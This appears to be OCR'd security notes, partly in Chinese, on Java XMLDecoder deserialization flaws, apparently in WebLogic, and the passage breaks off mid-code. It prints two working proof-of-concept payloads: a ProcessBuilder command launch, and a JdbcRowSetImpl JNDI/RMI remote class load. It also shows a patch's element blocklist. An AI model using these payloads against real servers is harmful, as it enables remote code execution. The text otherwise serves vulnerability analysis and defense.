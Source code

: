 ```xml
<java version="1.4.0" class="java.beans.XMLDecoder">
    <new class="java.lang.ProcessBuilder">
        <string>calc</string>
<method name="start" />
    </new>
</java>
```

```xml
<java version="1.8.0_131" class="java.beans.XMLDecoder">
    <void class="com.sun.rowset.JdbcRowSetImpl">
    <void property="dataSourceName">
        <string>rmi://localhost:1099/Exploit</string>
    </void>
    <void property="autoCommit">
        <boolean>true</boolean>
    </void>
    </void>
</java>
```

上面这个poc生成JdbcRowSetImpl的实例，接着调用该实例的set方法来初始化该实例的属性，当调用完setAutoCommit接口时会根据dataSourceName的值去远程加载一个类初始化，我们可以用rmi

### fix

```java
private void validate(InputStream is) {
   WebLogicSAXParserFactory factory = new WebLogicSAXParserFactory();
   try {
      SAXParser parser = factory.newSAXParser();
      parser.parse(is, new DefaultHandler() {
         private int overallarraylength = 0;
         public void startElement(String uri, String localName, String qName, Attributes attributes) throws SAXException {
            if(qName.equalsIgnoreCase("object")) {
               throw new IllegalStateException("Invalid element qName:object");
            } else if(qName.equalsIgnoreCase("new")) {
               throw new IllegalStateException("Invalid element qName:new");
            } else if(qName.equalsIgnoreCase("method")) {
               throw new IllegalStateException("Invalid element qName:method");
            } else {
               if(qName.equalsIgnoreCase("void")) {
                  for(int attClass = 0; attClass < attributes.getLength(); ++attClass) {
                     if(!"index".equalsIgnoreCase(attributes.getQName(attClass))) {
                        throw new IllegalStateException("Invalid attribute for element void:" + attributes.getQName(attClass));
                     }
                  }
               }
               if(qName.equalsIgnoreCase("array")) {
                  String var9 = attributes.getValue("class");
                  if(var9 != null && !var9.equalsIgnoreCase("byte")) {
                     throw new IllegalStateException("The value of class attribute is not valid for array element.");
                  }
```
